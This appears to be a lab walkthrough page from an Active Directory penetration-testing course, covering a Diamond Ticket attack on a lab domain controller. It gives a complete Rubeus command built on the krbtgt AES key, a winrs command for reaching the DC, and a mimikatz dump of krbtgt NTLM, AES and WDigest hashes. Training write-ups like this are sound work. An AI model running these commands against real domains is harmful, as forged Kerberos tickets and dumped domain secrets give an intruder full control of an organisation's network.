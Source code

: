 ```yaml
---
icon: vial
---
```


# 10 - Learning Object1️0️

## Tasks



1 - Use Domain Admin privileges obtained earlier to execute the Diamond Ticket attack

Flag 19 \[dcorp-dc] - Name of the account whose secrets are used for the Diamond Ticket attack 🚩



## Solutions

### 1 - Use Domain Admin privileges obtained earlier to execute the Diamond Ticket attack

Run a new shell as administrator and use the following Rubeus command to execute the Diamond Ticket attack:

```powershell
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args diamond /krbkey:154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848 /tgtdeleg /enctype:aes /ticketuser:administrator /domain:dollarcorp.moneycorp.local /dc:dcorp-dc.dollarcorp.moneycorp.local /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

<figure><img src="../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

Using the new process started, access the DC using winrs:

```powershell
winrs -r:dcorp-dc cmd
set username
```

<figure><img src="../../.gitbook/assets/image (201).png" alt=""><figcaption></figcaption></figure>

### Flag 19 \[dcorp-dc] - Name of the account whose secrets are used for the Diamond Ticket attack 🚩

Krbtgt's secrets are used for the Diamond Ticket attack.

```powershell
Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 11/11/2022 10:59:41 PM
Object Security ID   : S-1-5-21-719815819-3726368948-3917688648-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 4e9815869d2090ccfca61c1fe0d23986
    ntlm- 0: 4e9815869d2090ccfca61c1fe0d23986
    lm  - 0: ea03581a1268674a828bde6ab09db837

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 6d4cc4edd46d8c3d3e59250c91eac2bd

* Primary:Kerberos-Newer-Keys *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 154cb6624b1d859f7080a6615adc488f09f92843879b3d914cbcb5a8c3cda848
      aes128_hmac       (4096) : e74fa5a9aa05b2c0b2d196e226d8820e
      des_cbc_md5       (4096) : 150ea2e934ab6b80

* Primary:Kerberos *
    Default Salt : DOLLARCORP.MONEYCORP.LOCALkrbtgt
    Credentials
      des_cbc_md5       : 150ea2e934ab6b80

* Packages *
    NTLM-Strong-NTOWF

* Primary:WDigest *
    01  a0e60e247b498de4cacfac3ba615af01
    02  86615bb9bf7e3c731ba1cb47aa89cf6d
    03  637dfb61467fdb4f176fe844fd260bac
    04  a0e60e247b498de4cacfac3ba615af01
    05  86615bb9bf7e3c731ba1cb47aa89cf6d
    06  d2874f937df1fd2b05f528c6e715ac7a
    07  a0e60e247b498de4cacfac3ba615af01
    08  e8ddc0d55ac23e847837791743b89d22
    09  e8ddc0d55ac23e847837791743b89d22
    10  5c324b8ab38cfca7542d5befb9849fd9
    11  f84dfb60f743b1368ea571504e34863a
    12  e8ddc0d55ac23e847837791743b89d22
    13  2281b35faded13ae4d78e33a1ef26933
    14  f84dfb60f743b1368ea571504e34863a
    15  d9ef5ed74ef473e89a570a10a706813e
    16  d9ef5ed74ef473e89a570a10a706813e
    17  87c75daa20ad259a6f783d61602086aa
    18  f0016c07fcff7d479633e8998c75bcf7
    19  7c4e5eb0d5d517f945cf22d74fec380e
    20  cb97816ac064a567fe37e8e8c863f2a7
    21  5adaa49a00f2803658c71f617031b385
    22  5adaa49a00f2803658c71f617031b385
    23  6d86f0be7751c8607e4b47912115bef2
    24  caa61bbf6b9c871af646935febf86b95
    25  caa61bbf6b9c871af646935febf86b95
    26  5d8e8f8f63b3bb6dd48db5d0352c194c
    27  3e139d350a9063db51226cfab9e42aa1
    28  d745c0538c8fd103d71229b017a987ce
    29  40b43724fa76e22b0d610d656fb49ddd


mimikatz(commandline) # exit
Bye!
```
